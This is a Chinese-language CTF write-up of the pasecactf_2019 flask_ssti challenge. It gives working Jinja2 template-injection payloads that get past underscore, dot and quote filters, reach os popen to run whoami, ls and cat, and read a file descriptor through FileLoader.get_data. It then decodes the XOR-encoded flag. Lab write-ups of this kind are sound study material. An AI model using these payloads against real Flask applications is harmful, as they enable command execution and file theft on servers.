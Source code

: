 ```yaml
---
title: '[pasecactf_2019]flask_ssti'
date: 2024-09-06 20:48:24
tags: ssti
categories: 刷题笔记
---
```


### [pasecactf_2019]flask_ssti

![image-20240906205453754](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409062054816.png)

下划线被禁用了

我们用16进制代替，使用\x5f

<!--more-->

![image-20240906221813927](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409062218030.png)

点被禁用了

我们用[]代替

![image-20240908151036146](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409081510273.png)

単引号被禁了

我们用双引号代替

```
我们执行{{()["\x5f\x5fclass\x5f\x5f"]}} 相当于执行{{()."__class\_\_"}}

![image-20240908152922896](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409081529962.png)
```

```
我们执行{{()["\\x5f\\x5fclass\\x5f\\x5f"]\["\x5f\x5fbases\x5f\x5f"][0]}},相当于执行{{()."\_\_class\_\_"."\_\_bases__"[0]}}

我们执行{{()["\x5f\x5fclass\x5f\x5f"]\["\x5f\x5fbases\x5f\x5f"][0]\["\x5f\x5fsubclasses\x5f\x5f"]()}}
```



```
{{()."__class__"."__bases__"[0]."__subclasses__"()[59]}}
```

我们寻找可用类

```
import json

a = """
"""

num = 0
allList = []

result = ""
for i in a:
    if i == ">":
        result += i
        allList.append(result)
        result = ""
    elif i == "\n" or i == ",":
        continue
    else:
        result += i

for k, v in enumerate(allList):
    if "os._wrap_close" in v:
        print(str(k) + "--->" + v)

```

![image-20240908154502121](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409081545273.png)

os._wrap_close在127号位上

```
{{()["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbases\x5f\x5f"][0]["\x5f\x5fsubclasses\x5f\x5f"]()[127]}}
```

这个类里有发现有popen，open，system这些方法

我们执行whoami

```
{{()["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbases\x5f\x5f"][0]["\x5f\x5fsubclasses\x5f\x5f"]()[127]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]["popen"]("whoami")["read"]()}}

```

![image-20240908154735484](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409081547507.png)

成功执行

我们执行ls，看看有没有flag

```
{{()["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbases\x5f\x5f"][0]["\x5f\x5fsubclasses\x5f\x5f"]()[127]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]["popen"](“ls")["read"]()}}

```

![image-20240908154840815](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409081548834.png)

没有找到，那我们访问app.py看看

```
{{()["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbases\x5f\x5f"][0]["\x5f\x5fsubclasses\x5f\x5f"]()[127]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]["popen"](“cat ap*")["read"]()}}
```

得到文件源码

![image-20240908154917966](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409081549091.png)

```
import random
from flask import Flask, render_template_string, render_template, request
import os

app = Flask(__name__)
app.config['SECRET_KEY'] = 'folow @osminogka.ann on instagram =)'

#Tiaonmmn don't remember to remove this part on deploy so nobody will solve that hehe
'''
def encode(line, key, key2):
    return ''.join(chr(x ^ ord(line[x]) ^ ord(key[::-1][x]) ^ ord(key2[x])) for x in range(len(line)))

app.config['flag'] = encode('', 'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3', 'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVT')
'''

def encode(line, key, key2):
    return ''.join(chr(x ^ ord(line[x]) ^ ord(key[::-1][x]) ^ ord(key2[x])) for x in range(len(line)))

file = open("/app/flag", "r")
flag = file.read()
flag = flag[:42]

app.config['flag'] = encode(flag, 'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3', 'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVT')
flag = ""

os.remove("/app/flag")

```

代码吧/app/flag给删了，但它加密完成的flag已经存在config里面

而他加密的模式又是异或，所以他的加密函数和解密函数是相同的

先找找加密后的flag吧

![image-20240908155216368](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409081552419.png)

```
-M7\x10w@d94\x02!`-\x0eL\x0c;\x07(DKO\r\x17!2R4\x02\rO\x0bsT#-\x1c`@Z\x1dG

```

```
def encode(line,key,key2):
    return ''.join(chr(x^ord(line[x])^ord(key[::-1][x])^ord(key2[x])) for x in range(len(line)))
flag='-M7\x10w@d94\x02!`-\x0eL\x0c;\x07(DKO\r\x17!2R4\x02\rO\x0bsT#-\x1c`@Z\x1dG'
flag = encode(flag, 'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3', 'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVT')
print(flag)
```



得到flag![image-20240908155740065](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409081557120.png)



解法2：

用_frozen_importlib_external.FileLoader这个类

然后用get_data读取/proc/self/fd/3

```
{{()["\x5F\x5Fclass\x5F\x5F"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()[91]["get\x5Fdata"](0, "/proc/self/fd/3")}}

```

